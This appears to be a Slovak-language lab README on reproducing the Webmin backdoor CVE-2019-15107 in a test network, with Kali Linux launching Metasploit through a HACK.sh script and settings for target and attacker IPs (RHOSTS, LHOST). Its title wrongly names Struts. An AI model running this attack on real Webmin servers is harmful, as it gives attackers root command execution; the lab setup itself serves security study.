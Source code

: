 # Otestovanie zraniteľnosti Struts na Ubuntu 19.04

Webový ovládací panel Webmin slúži na správu systému Unix. Eliminuje potrebu ručne upravovať konfiguračné súbory
systému Unix, ako napríklad /etc/passwd, a umožňuje spravovanie systému z konzoly alebo vzdialene. Preto sa 
používa vo väčšine organizácií, kde sa používajú unixové servery. Útok CVE-2019-15107 fungoval ako *backdoor*, 
čiže bol zámerne umiestnený v roku 2018 a nájdený počas bezpečnostnej konferencie DEF CON 2019, keď výskumníci 
narazili na škodlivý kód.

Každý, kto vedel o existencii zraniteľnosti, mohol využiť *backdoor*, čím mal možnosť vykonávať príkazy 
s privilégiami *root*. Podľa Jamieho Camerona, autora webového ovládacieho panela Webmin, bol 
*backdoor* vložený do verzie 1.890. Následne boli nájdené ďalšie dve verzie s takmer identickým 
kódom, konkrétne verzie 1.900 a 1.920. Do skriptu `password\_change.cgi` bola pridaná zraniteľnosť. 

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme stiahli zraniteľnú verziu
[ovládacieho panelu Webmin](https://sourceforge.net/projects/webadmin/files/webmin/1.890/) a nainštalovali ju. Následne
sme zapli server.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v kozole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.40`. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.41` a spustiť útok. 
